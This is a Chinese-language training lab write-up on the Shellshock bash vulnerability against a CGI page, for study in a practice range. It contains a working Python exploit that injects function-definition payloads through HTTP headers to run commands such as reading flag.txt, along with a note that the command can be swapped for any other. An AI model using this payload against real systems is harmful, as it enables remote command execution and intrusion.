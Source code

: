 # bash 破壳漏洞

## 【实验原理】

​	Bash使用的环境变量是通过函数名称来调用的，导致漏洞出问题是以“(){”开头定义的环境变量在命令ENV中解析成函数后，Bash执行并未退出，而是继续解析并执行shell命令。导致出现命令执行，而其核心的原因在于在输入的过滤中没有严格限制边界，也没有做出合法化的参数判断。

## 【实验目的】

提高学员对bash命令的理解以及对bash的原理进行一定的认识。

## 【实验环境】

![](文档/1.png)

* 靶机：Ubuntu14.04 64位操作系统。
* IP地址：随机分配，已绑定端口80
* 客户机：kali  IP地址：随机分配

## 【实验工具】

Python，浏览器访问，漏洞POC进行命令执行

## 【实验步骤】

**步骤1：** 访问平台生成的url，对bash破壳漏洞进行一个初步的了解。

![](文档/2.png)

**步骤2：** 点击靶场环境按钮，进入一个cgi页面

![](文档/3.png)

![](文档/4.png)



**步骤3：** 通过对bash破壳漏洞的进一步了解，从而进行构造攻击payload对靶场页面URL进行远程命令执行

编写exp：

```python
#coding=utf-8
import urllib, urllib2
import cookielib, socket
import cgi, re, os


def get_request(url):
    socket.setdefaulttimeout(5)
    i_headers = {"Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
                 "User-Agent": "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1985.125 Safari/537.36",
                 "CustomHeader": "() { test;};echo; echo shellshock one;",
                 "CustomHeaderNew": "() { _;} >shellshockme[$($())] { cat flag.txt;}",
                 }

    try:
        req = urllib2.Request(url, headers=i_headers)
        response = urllib2.urlopen(req)
        print response.info()
        html = response.read()
        print html
    except:
        print "Error on request"

if __name__ == '__main__':
    url = "http://218.2.197.232:25294/cgi-bin/test.sh"
    get_request(url)

```

**注：**

1. 将exp中的url替换成自己靶机的url即可
2. exp中的`i_headers`字段将`{ cat flag.txt;}`命令替换成你需要的指令即可完成任意命令执行

**步骤4：** 通过对服务器进行命令执行操作，找出含有flag的页面，flag.txt

**步骤4：** 执行命令查看或下载该文件，找出文件中的flag

执行结果：

![](文档/result.png)

## **【实验总结】**

本次实验主要是模拟真实环境中bash破壳漏洞命令执行操作，提取有效信息。
